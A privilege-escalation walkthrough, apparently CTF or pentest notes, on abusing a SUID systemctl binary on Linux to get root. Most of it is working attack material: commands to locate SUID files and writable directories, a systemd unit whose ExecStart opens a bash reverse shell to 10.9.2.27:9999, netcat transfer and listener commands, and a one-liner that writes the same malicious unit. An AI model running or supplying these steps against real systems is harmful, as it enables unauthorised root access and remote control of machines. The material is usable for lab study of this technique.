 
Once we get user on the linux system we can check for a privesc using systemctl

First we can run 

Find / -user root -perm -4000 -exec ls -ldb {} \;

Which shows us all SUID files where we can check for insteresting files like /bin/systemctl that 
allows us to run commands as root. We can use this later

First we need to find writable directories like this:

find / -type d -maxdepth 2 -writable

cd into a writeable dir such as /var/temp

Then we can write our file that will spawn us a root shell, this will look like:

filename will be root.service

[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.2.27/9999 0>&1'

[Install]
WantedBy=multi-user.target



Now we need to transfer the file from our machine via netcat or whatever option is available, 
we can do this using the commands: 

nc -l -p 1234 > output.file # run this on target machine

nc -w 3 [our machine ip] 1234 < output.file # run this on our machine


Start the listener on our machine:

nc -lvnp 9999  

now that we have our file we need to enable the service via:

/bin/systemctl enable /var/tmp/root.service

output should show something like "created symlink /etc "

finally we can start the listener on our machine, and then execute our file using: 

/bin/systemctl start root

and just like that we should get a root shell connected back to our machine



# without file transfer 


Another way we can try to do this is similar but without having to transfer files

First we need to check for writeable directories again

find / -type d -maxdepth 2 -writable

cd into the directory and run the following one liner command

RATME="'bash -i >& /dev/tcp/yourIPHere/9999 0>&1'" echo '[Unit]\nDescription=rooted-Oneliner\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c '$RATME'\n\n[Install]\nWantedBy=multi-user.target' >root.service

Dont forget to start the nc listener on our machine:

nc -lvnp 9999  

to start it we again use:

/bin/systemctl enable /whatever-writable-dir/root.service

and 

/bin/systemctl start root


This should give us a root shell connected back to our machine 